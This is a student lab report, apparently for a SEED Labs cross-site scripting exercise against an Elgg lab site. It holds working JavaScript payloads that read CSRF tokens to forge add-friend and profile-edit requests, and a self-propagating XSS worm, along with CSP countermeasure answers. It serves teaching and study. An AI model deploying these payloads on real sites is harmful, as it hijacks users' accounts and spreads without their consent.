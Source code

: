# Background
## What is XSS attack?
![[Drawing 2023-11-20 15.57.56.excalidraw|650]]
## Countermeasures
1. Sanitize(Filter): The goal for this countermeasure is to remove the code from user's inputs. Usually, the malicious code are embedded with a script tag. Therefore, by deleting this tag, the malicious code can be treated as normal text. 
2. Encoding: Similar to the first method, we can use the ASCII characters to treat the tag brackets '<' and '>' as characters by encoding them. It can also make the malicious code be text. 
3. Content Security Policy: This is a method to control the script usage of the files. For example, we can only allow the website use the same source script. We can also restrict the inline script with nonces to prevent users from using unknown source scripts. 
# Task 1
## Results and Screenshots
Input: 
`<script>alert('xss')</script>` 
Output: 
![[Pasted image 20231120123001.png|650]]
## Explanation
For the website input, it has a "Edit HTML" button which allows the users to input the HTML tags directly without sanitizing them. Therefore, if we put script tags inside the input box, the website would run the code between the script tags. When we click the save button, it will also put everything into the database as the script tag, which means every user who access this page will automatically run the not sanitized code. 
# Task 2
## Results and Screenshots
Captured: 
`http://www.seed-server.com/action/friends/add? friend=59&__elgg_ts=1700483477&__elgg_token=Blz_SXdDF3os1joxJsVvyw&_ _elgg_ts=1700483477&__elgg_token=Blz_SXdDF3os1joxJsVvyw`
Script: 
```
<script type="text/javascript">
window.onload = function () {
var Ajax=null;
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts; var token="&__elgg_token="+elgg.security.token.__elgg_token;  
var sendurl= "http://www.seed-server.com/action/friends/add? friend=59"+ts+token+ts+token; 
Ajax=new XMLHttpRequest(); 
Ajax.open("GET", sendurl, true); 
Ajax.send(); 
}
</script>
```
Alice's account automatically sent the request: (When refresh, the button automatically changed from "Add Friend" to "Remove Friend")
![[Pasted image 20231120125238.png|650]]
## Questions
1. Question 1: Explain the purpose of (1) and (2), why are they needed? 
Answer: The website contains countermeasures regarding the CSRF attack. The token and the timestamp are used as a verification of user's status. Therefore, the two lines are used to directly extract the CSRF token and timestamp to the variable to use them easily. 
2.  If the Elgg application only provides the Rich Text Editor mode for the "About Me" field, i.e., you cannot switch to the Text mode (“Edit HTML”), can you still launch a successful attack?
Answer: Yes. Usually, the Rich Text Editor contains safety measures to clear the malicious input. They usually intend to delete HTML tags inside the user input. However, we can directly modify the content in the input tag to avoid the additional verification. 
# Task 3
## Results and Screenshots
Input: 
```
<script type="text/javascript">
window.onload = function(){
//JavaScript code to access user name, user guid, Time Stamp
__elgg_ts
//and Security Token __elgg_token
var userName="&name="+elgg.session.user.name;
var guid="&guid="+elgg.session.user.guid;
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
var token="&__elgg_token="+elgg.security.token.__elgg_token;
//Construct the content of your url.
var content="&description=<p>samy is my
hero</p>"+ts+token+userName+guid; //FILL IN
var samyGuid=59; //FILL IN
var sendurl="http://www.seed-server.com/action/profile/edit"; 
if(elgg.session.user.guid!=samyGuid)
{
//Create and send Ajax request to modify profile
var Ajax=null;
Ajax=new XMLHttpRequest();
Ajax.open("POST", sendurl, true);
Ajax.setRequestHeader("Content-Type",
"application/x-www-form-urlencoded");
Ajax.send(content);
}
}
</script>
```
When Alice is accessing Samy's web page, we can see the request is automatically sent.![[Pasted image 20231120132828.png|650]]Alice's profile after visit Samy's Profile: 
![[Pasted image 20231120132859.png|650]]
## Questions
3. Why do we need Line (1)? If we do not add this check, can the attack be successful? How come we do not have such a check in the add-friend attack (add_friend.js)? 
Answer: If we do not add this check, when Samy is checking his own page, the malicious code may copy the text "Samy is my hero" to his own profile, which will overwrite the malicious content. For add_friend.js, the malicious code does not do any overwrite, it only send the get request to the server to add Samy as friend. When Samy access the server, the server would not accept a request that add himself as a friend. Therefore, adding this if statement or not will not influence the result of the attack. 
# Task 4
## Results and Screenshots
Input: 
```
<script id="worm">
var headerTag = "<script id=\"worm\" type=\"text/javascript\">";
var jsCode = document.getElementById("worm").innerHTML; 
var tailTag = "</" + "script>"; 
var wormCode = encodeURIComponent(headerTag + jsCode + tailTag);
alert(jsCode);
window.onload = function(){
userName="&name="+elgg.session.user.name; var guid="&guid="+elgg.session.user.guid; var ts="&__elgg_ts="+elgg.security.token.__elgg_ts; var token="&__elgg_token="+elgg.security.token.__elgg_token; 
var content="&description="+wormCode+ts+token+userName+guid; 
var samyGuid=59; 
var sendurl="http://www.seed-server.com/action/profile/edit"; 
if(elgg.session.user.guid!=samyGuid) { 
var Ajax=null; 
Ajax=new XMLHttpRequest(); 
Ajax.open("POST", sendurl, true); 
Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded"); 
Ajax.send(content); } 
}
```
Samy's Profile: (After put the worm)
![[Pasted image 20231120154213.png]]
Alice Profile (Before put the worm):
![[Pasted image 20231120135306.png]]
Alice Profile (After visit Samy's Profile):
![[Pasted image 20231120154139.png]]
Boby Profile (Before visit Alice's Profile):
![[Pasted image 20231120154426.png]]
Boby Profile (After visit Alice's Profile):
![[Pasted image 20231120154514.png]]
## Explanation
The Self-Propagating XSS worm uses DOM's API to access the malicious code on the tree, which is basically itself. In this case, the code use headerTag variable references the script header, jsCode references the code itself, and the tailTag variable to reconstruct the same content. Then, it extends the previous task's content to replicate itself to anyone who visits this profile. 

# Task 5
## Results and Screenshots
![[Pasted image 20231120155203.png|650]]
![[Pasted image 20231120155241.png|650]]
![[Pasted image 20231120155305.png|650]]
## Questions
4. All the areas in the 32a website show OK, and it does not apply any CSP features. 
    The area 4 and 6 in the 32b website works, and it only allows the website to load from the same source and the example70.com source. 
    The area 1, 4 and 6 in the 32c website show OK, and it only allows the website to load from the strategy listed in phpindex.php. In this PHP file, it shows that this website can only load resources from self, 111-111-111 nonce and example70.com.
5. ```# Purpose: Setting CSP policies in Apache configuration <VirtualHost *:80> DocumentRoot /var/www/csp ServerName www.example32b.com DirectoryIndex index.html Header set Content-Security-Policy " \ default-src 'self'; \ script-src 'self' *.example70.com *.example60.com\ " </VirtualHost>```
   To allow area 5, which is the example60.com, be loaded, we need to modify the security policy to allow the example60.com be one of the sources. *.example60.com\``
   ![[Pasted image 20231120222736.png|650]]
6. 
```
<?php
  $cspheader = "Content-Security-Policy:".
               "default-src 'self';".
               "script-src 'self' 'unsafe-inline' *.example60.com *.example70.com;".
               "";
  header($cspheader);
?>

<?php include 'index.html'; ?>
```